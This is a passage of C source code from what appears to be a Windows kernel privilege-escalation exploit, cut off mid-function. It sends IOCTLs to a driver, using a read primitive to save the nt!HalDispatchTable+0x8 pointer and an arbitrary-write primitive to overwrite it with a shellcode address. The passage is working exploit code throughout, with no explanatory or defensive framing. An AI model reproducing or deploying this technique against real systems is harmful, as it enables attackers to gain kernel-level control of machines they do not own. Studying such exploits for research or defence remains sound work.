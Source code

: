 ```c
						BOOL interact13 = DeviceIoControl(
							driverHandle,
							IOCTL_READ_CODE,
							&inBuf14,
							sizeof(inBuf14),
							&inBuf14,
							sizeof(inBuf14),
							&bytesReturned14,
							NULL
						);

						// Error handling
						if (!interact13)
						{
							printf("[-] Error! Unable to interact with the driver. Error: 0x%lx\n", GetLastError());
						}
						else
						{
							// Last member of read array should contain preserved nt!HalDispatchTable+0x8 value
							unsigned long long preservedHal = inBuf14[3];

							printf("[+] Preserved nt!HalDispatchTable+0x8 value: 0x%llx\n", preservedHal);

							// Leveraging arbitrary write primitive to overwrite nt!HalDispatchTable+0x8
							// Buffer to send to the driver (write primitive)
							unsigned long long inBuf15[4];

							// Values to send
							unsigned long long one15 = 0x4141414141414141;
							unsigned long long two15 = halDispatch;
							unsigned long long three15 = 0x0000000000000000;
							unsigned long long four15 = shellcodeLocation;

							// Assign the values
							inBuf15[0] = one15;
							inBuf15[1] = two15;
							inBuf15[2] = three15;
							inBuf15[3] = four15;

							// Interact with the driver
							DWORD bytesReturned15 = 0;

							BOOL interact14 = DeviceIoControl(
								driverHandle,
								IOCTL_WRITE_CODE,
								&inBuf15,
								sizeof(inBuf15),
								&inBuf15,
								sizeof(inBuf15),
								&bytesReturned15,
								NULL
							);

							// Error handling
							if (!interact14)
							{
								printf("[-] Error! Unable to interact with the driver. Error: 0x%lx\n", GetLastError());
							}
```